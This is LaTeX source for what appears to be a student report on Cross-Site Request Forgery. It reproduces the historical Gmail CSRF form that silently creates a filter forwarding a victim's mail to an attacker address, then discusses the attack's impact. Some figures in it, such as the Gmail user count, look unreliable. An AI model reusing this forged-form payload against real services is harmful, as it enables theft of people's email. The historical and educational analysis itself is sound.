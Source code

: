 \documentclass[a4paper,11pt,openany]{report}
\newcommand{\csrf}{\textit{Cross-Site Request Forgery}}
\begin{document}
  The injection could be done on almost any of Gmail's interfaces where a user was logged in.
  
  \begin{figure}[h!t]
  \begin{verbatim} % JS = JavaScript
  <form method="POST" 
      action="https://mail.google.com/mail/h/ewt1jmuj4ddv/?v=prf" 
      enctype="multipart/form-data"> 
    <input type="hidden" name="cf2_emc" value="true"/> 
    <input type="hidden" name="cf2_email" value="allyourmails@arebelongto.us"/> 
    <input type="hidden" name="cf1_from" value=""/> 
    <input type="hidden" name="cf1_to" value=""/> 
    <input type="hidden" name="cf1_subj" value=""/> 
    <input type="hidden" name="cf1_has" value=""/> 
    <input type="hidden" name="cf1_hasnot" value=""/> 
    <input type="hidden" name="cf1_attach" value="true"/> 
    <input type="hidden" name="tfi" value=""/> 
    <input type="hidden" name="s" value="z"/> 
    <input type="hidden" name="irf" value="on"/> 
    <input type="hidden" name="nvp_bu_cftb" value="Create Filter"/> 
  </form>
  \end{verbatim}
  \caption{The form layout presented by Gnucitizen~\cite{gnucitizen} (educational site on security related matters).}
  \label{figure:form}
  \end{figure}
  
  \subsubsection{Impact}
  One would think it would be a hard backlash for Gmail when the reports came about the CSRF attacks. Users lost 
  accounts and information even after Google fixed the vulnerability - as the source of the attack, the filter, 
  had to be removed by the users themselves. But the declining popularity never occurred. The key, to the gigantic
  success users world wide are using today, is the fact it happened in an early stage. During the attacks in 
  September, approximately 80 thousand were using Gmail~\cite{techcrunch}. Compare it to 2015 where 900 million users exists~\cite{dmr}.
  The attack was severe, but it was done during a time Gmail had just started their engines. If the same attack
  would happen today, who knows how many users would leave Gmail for another email service.

  \subsection{Comparison}
  Both were \csrf{} attacks that were ahead of their time. Key components in them are malicious scripts that runs in the 
  shadow. The first attack had a larger emphasize on the actual script while the second attack used a special type of 
  form. Result: as long as the victim did not realize what had happened they remained equally effective.
  
\end{document}
